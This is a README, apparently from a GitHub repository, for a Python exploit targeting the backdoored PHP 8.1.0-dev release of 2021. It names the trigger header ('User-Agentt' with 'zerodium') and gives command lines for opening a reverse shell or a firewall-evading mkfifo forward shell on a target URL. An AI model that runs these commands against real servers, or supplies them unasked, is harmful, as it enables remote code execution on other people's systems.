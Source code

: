 # PHP 8.1.0-dev Backdoor Remote Code Execution

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header with secret word zerodium.

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

This exploit creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* For reverse shell 
```
python3 php8.1_dev.py -t http://vulnerablesite/ -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 php8.1_dev.py -t http://vulnerablesite/ -fs
```

## Help

For Help Menu
```
python3 php8.1_dev.py -h
```

## Acknowledgments

Backstory and Inspiration
* [Zerodium](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.